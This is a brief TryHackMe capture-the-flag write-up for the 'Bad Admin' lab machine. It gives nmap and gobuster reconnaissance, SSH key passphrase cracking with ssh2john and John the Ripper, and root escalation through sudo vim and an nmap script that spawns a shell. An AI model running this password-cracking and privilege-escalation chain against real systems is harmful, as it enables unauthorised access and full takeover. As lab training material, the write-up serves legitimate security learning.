



# Official TryHackMe Bad Admin WriteUp

First -- scan machine with nmap:

```bash
nmap -p- -A <MACHINE_IP>
```


Go on site in your browser


Scan directories on this site

```
gobuster dir -u <MACHINE_IP> -w /usr/share/wordlists/dirb/big.txt
```


Go to secter



Name of file -- login to ssh, secret -- key to login ssh

Brute password for id_rsa

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```



Login ssh 



Cat user.txt


Decode user.txt


Check sudo 


Use nmap or vim for PrivEsc. [GTFObins](https://gtfobins.github.io/)

```bash
vim
:!/bin/bash
```

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Cat root.txt


